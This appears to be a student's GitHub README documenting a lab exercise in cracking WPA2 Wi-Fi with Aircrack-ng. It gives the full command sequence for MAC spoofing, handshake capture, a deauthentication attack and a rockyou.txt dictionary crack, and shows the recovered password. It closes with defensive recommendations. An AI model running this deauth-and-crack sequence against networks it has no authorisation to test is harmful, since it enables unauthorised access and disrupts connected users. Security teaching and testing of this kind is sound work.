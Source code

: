 # network-cracking-aircrack
Wi-Fi penetration testing using Aircrack-ng and PCI utilities. Demonstrates handshake capture, dictionary attacks, and integration with IoT devices for academic red team research.

# WPA2 Wi-Fi Penetration Testing Using Aircrack-ng
This project demonstrates how a WPA2-protected wireless network can be compromised using penetration testing tools and methods. The simulation was conducted on a test network called **R&J Ventures**, using **Aircrack-ng** and the **rockyou.txt** wordlist.

> 🔒 This work was done purely for academic and ethical hacking purposes.

---

## 🛠 Tools Used
| Tool          | Purpose |
|---------------|---------|
| **Aircrack-ng Suite** | Capture and crack WPA2 handshakes |
| **Airodump-ng** | Scan and lock on Wi-Fi target |
| **Aireplay-ng** | Launch deauthentication attack |
| **macchanger** | Randomize MAC address |
| **rockyou.txt** | Public wordlist used for dictionary attack |
| **Crunch (optional)** | Generate custom password lists (not used here but explained below) |

---

## 🧪 Test Setup
- **OS**: Kali GNU/Linux  
- **Wi-Fi Adapter**: External card with monitor mode support  
- **Target SSID**: R&J Ventures  
- **BSSID**: FA:6A:9C:BC:C7:AD  
- **Wordlist**: `/usr/share/wordlists/rockyou.txt`  

---

## 🔍 Step-by-Step Implementation

### 1. Spoof MAC Address
To improve anonymity, we randomized the MAC address of the interface.  

Check your interface MAC address:
```bash
ifconfig
```
Change your MAC address:
```bash
sudo macchanger -r wlan0 # Replace wlan0 with the name of your interface card
```


### 2. Enable Monitor Mode
Check the wireless card mode:
```bash
iwconfig
```
Switch the wireless card to monitor mode to capture packets:
```bash
sudo airmon-ng start wlan0  # Replace wlan0 with the name of your interface card
```


### 3. Scan for Nearby Networks
Identify all visible Wi-Fi networks and note the target's channel and BSSID:
```bash
sudo airodump-ng wlan0
```


### 4. Lock on Target (R&J Ventures)
Focused scan on the R&J Ventures network to capture WPA handshake packets:
```bash
airodump-ng -c 6 --bssid FA:6A:9C:BC:C7:AD -w r-j-ventures wlan0 # Replace -c and -bssid with your target network
```
NB: (a) -c = Specifies the channel number (in this case, channel 6) where the target network is operating.
    (b) --bssid = Locks onto the target network’s unique BSSID (MAC address) to focus the capture.
    (c) -w = Saves the captured packets (including the handshake) to a file named capture-01.cap. The file name can be anything based on how you saved it.


### 5. Deauthentication Attack
Forced a connected client to reconnect and generate the handshake:
```bash
sudo aireplay-ng --deauth 10 -a FA:6A:9C:BC:C7:AD wlan0
```
Check if the handshake is captured:
```bash
sudo aircrack-ng r-j-ventures-01.cap  # Replace r-j-ventures-01.cap with the name of your file
```


### 6. Crack WPA2 Password
Use Aircrack-ng and rockyou.txt to crack the captured handshake:
```bash
sudo aircrack-ng r-j-ventures-01.cap -w /usr/share/wordlists/rockyou.txt
```


### 7. Password Found
Password found: reed0710ko


💡 Bonus: What If rockyou.txt Fails?
If public wordlists fail, tools like Crunch can create custom wordlists based on patterns (e.g. names, dates, formats):
```bash
crunch 8 12 -t jeff@@@@ -o mylist.txt
```
NB: Use mylist.txt with Aircrack-ng just like rockyou.



🛡️ Security Recommendations
1. Use long, random passwords not found in dictionaries
2. Upgrade to WPA3 if supported
3. Disable WPS (Wi-Fi Protected Setup)
4. Monitor for repeated deauth packets or spoofed MACs
5. Set router to limit handshake replays


📚 Conclusion
This simulation confirmed that WPA2 networks using weak passwords remain vulnerable to dictionary-based brute-force attacks. 
Ethical penetration testing helps organizations identify such flaws and improve security posture.


👨‍💻 Author
Jeffrey Adams
Cybersecurity Student – University of Mines and Technology (UMaT)
GitHub: @adamsjeffrey779-secureb4





 



 


